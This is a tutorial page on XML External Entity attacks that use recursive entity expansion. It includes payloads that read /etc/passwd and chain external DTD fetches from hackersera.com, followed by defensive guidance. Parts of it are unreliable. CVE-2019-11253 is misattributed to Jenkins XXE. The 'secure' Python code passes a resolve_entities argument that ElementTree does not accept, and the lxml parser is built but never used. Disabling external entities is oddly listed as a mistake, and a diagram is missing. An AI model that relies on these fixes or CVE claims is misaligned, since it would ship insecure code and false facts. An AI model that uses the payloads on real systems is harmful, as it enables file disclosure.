

## XML External Entity (XXE) Attacks: Recursive Entity Expansion

### Introduction to XML External Entity (XXE) Attacks

XML External Entity (XXE) attacks are a class of vulnerabilities that occur when an application improperly processes user-supplied XML input. These attacks can lead to information disclosure, denial of service, server-side request forgery (SSRF), and other malicious activities. One particularly dangerous variant of XXE attacks is the recursive entity expansion attack, which can cause significant resource consumption and potentially crash the server.

### Understanding XML Entities

Before diving into the specifics of recursive entity expansion, it’s important to understand what XML entities are and how they function.

#### What Are XML Entities?

In XML, an entity is a named reference to a piece of data. There are two types of entities:

1. **Internal Entities**: Defined within the document itself using the `<!ENTITY>` declaration.
2. **External Entities**: Refer to external resources using the `SYSTEM` keyword followed by a URI.

For example, consider the following XML snippet:

```xml
<!DOCTYPE root [
    <!ENTITY example "Hello, World!">
]>
<root>
    <message>&example;</message>
</root>
```

Here, `&example;` is an internal entity that references the string "Hello, World!".

#### External Entities and DTDs

External entities are defined using a Document Type Definition (DTD). A DTD is a set of rules that define the structure and content of an XML document. External entities allow the XML parser to fetch data from external sources, such as files or URLs.

For example:

```xml
<!DOCTYPE root [
    <!ENTITY example SYSTEM "file:///etc/passwd">
]>
<root>
    <message>&example;</message>
</root>
```

In this case, `&example;` is an external entity that references the contents of `/etc/passwd`.

### Recursive Entity Expansion

Recursive entity expansion occurs when an external entity is defined in terms of another external entity, creating a chain of references. This can lead to a situation where the XML parser attempts to resolve these entities repeatedly, causing significant resource consumption.

#### Example of Recursive Entity Expansion

Consider the following XML snippet:

```xml
<!DOCTYPE root [
    <!ENTITY first SYSTEM "http://hackersera.com/first.dtd">
]>
<root>
    <message>&first;</message>
</root>
```

The `first.dtd` file might look like this:

```xml
<!ENTITY second SYSTEM "http://hackersera.com/second.dtd">
```

And the `second.dtd` file might look like this:

```xml
<!ENTITY third SYSTEM "http://hackersera.com/third.dtd">
```

This creates a chain of external entities that the XML parser must resolve recursively. Each time the parser encounters an external entity, it makes a new request to the specified URL, leading to a potential infinite loop of requests.

### Real-World Examples and Recent CVEs

Recursive entity expansion attacks have been observed in several real-world scenarios and have led to significant security issues. Here are some notable examples:

1. **CVE-2018-1147**: This vulnerability affected the Apache Struts framework, allowing attackers to exploit XXE vulnerabilities to execute arbitrary commands on the server. Recursive entity expansion was one of the techniques used to amplify the impact of the attack.

2. **CVE-2019-11253**: This vulnerability affected the Jenkins Continuous Integration server. An attacker could exploit XXE vulnerabilities to read arbitrary files on the server, including sensitive configuration files. Recursive entity expansion was used to increase the number of requests and consume server resources.

### How Recursive Entity Expansion Works

To understand how recursive entity expansion works, let's break down the process step-by-step.

#### Step-by-Step Process

1. **Initial Request**: The attacker sends an XML request containing an external entity reference.
2. **First DTD Fetch**: The XML parser fetches the first DTD from the specified URL.
3. **Second DTD Fetch**: The first DTD contains another external entity reference, which the parser fetches from the next URL.
4. **Third DTD Fetch**: The second DD T contains yet another external entity reference, and the process continues.
5. **Resource Consumption**: Each fetch consumes server resources, leading to a denial of service.

#### Example Code

Let's illustrate this with a complete example:

**Attacker's XML Request:**

```xml
<!DOCTYPE root [
    <!ENTITY first SYSTEM "http://hackersera.com/first.dtd">
]>
<root>
    <message>&first;</message>
</root>
```

**First DTD (`first.dtd`):**

```xml
<!ENTITY second SYSTEM "http://hackersera.com/second.dtd">
```

**Second DTD (`second.dtd`):**

```xml
<!ENTITY third SYSTEM "http://hackersera.com/third.dtd">
```

**Third DTD (`third.dtd`):**

```xml
<!ENTITY fourth SYSTEM "http://hackersera.com/fourth.dtd">
```

Each time the parser encounters an external entity, it makes a new request to the specified URL, leading to a potential infinite loop of requests.

### Mermaid Diagrams

To visualize the recursive entity expansion process, consider the following mermaid diagram:



### Pitfalls and Common Mistakes

When dealing with XML parsing, there are several common mistakes that can lead to XXE vulnerabilities:

1. **Improper Input Validation**: Failing to validate and sanitize XML input can allow attackers to inject malicious entities.
2. **Disabling External Entity Processing**: Some parsers allow disabling external entity processing, but this is often not enabled by default.
3. **Incorrect Configuration**: Misconfigured XML parsers can leave systems vulnerable to XXE attacks.

### How to Prevent / Defend Against Recursive Entity Expansion

Preventing recursive entity expansion requires a combination of proper configuration, input validation, and monitoring.

#### Secure Coding Practices

1. **Disable External Entity Processing**: Ensure that your XML parser is configured to disable external entity processing. For example, in Java, you can use the `setFeature` method:

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    ```

2. **Input Validation**: Validate and sanitize all XML input to ensure it does not contain malicious entities.

#### Detection and Monitoring

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual patterns of XML requests and resource consumption.
2. **IDS/IPS**: Use Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to identify and block suspicious XML requests.

#### Secure Configuration Examples

Here is an example of a secure configuration in Python using the `lxml` library:

```python
from lxml import etree

# Disable external entity processing
etree.XMLParser(resolve_entities=False)
```

### Complete Example with Vulnerable vs. Secure Code

#### Vulnerable Code

```python
import xml.etree.ElementTree as ET

# Vulnerable code
data = '''
<!DOCTYPE root [
    <!ENTITY first SYSTEM "http://hackersera.com/first.dtd">
]>
<root>
    <message>&first;</message>
</root>
'''

ET.fromstring(data)
```

#### Secure Code

```python
import xml.etree.ElementTree as ET

# Secure code
data = '''
<!DOCTYPE root [
    <!ENTITY first SYSTEM "http://hackersera.com/first.dtd">
]>
<root>
    <message>&first;</message>
</root>
'''

parser = ET.XMLParser(resolve_entities=False)
ET.fromstring(data, parser=parser)
```

### Hands-On Labs

To practice and gain hands-on experience with XXE attacks, consider the following labs:

1. **PortSwigger Web Security Academy**: Offers a comprehensive course on XXE attacks, including recursive entity expansion.
2. **OWASP Juice Shop**: Provides a vulnerable web application that includes XXE vulnerabilities.
3. **DVWA (Damn Vulnerable Web Application)**: Contains several XXE vulnerabilities that can be exploited and mitigated.

These labs provide a safe environment to experiment with XXE attacks and learn how to defend against them.

### Conclusion

Recursive entity expansion is a powerful technique that can be used to amplify the impact of XXE attacks. By understanding how these attacks work and implementing proper defensive measures, you can protect your applications from such vulnerabilities. Always validate and sanitize XML input, disable external entity processing, and monitor for suspicious activity to ensure the security of your systems.

---
<!-- nav -->
[[01-XML External Entity (XXE) Attacks Overview|XML External Entity (XXE) Attacks Overview]] | [[API Security/22-Offensive XXE Exploitation/18-XML Recursive Entity Expansion Attack/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/18-XML Recursive Entity Expansion Attack/03-Practice Questions & Answers|Practice Questions & Answers]]
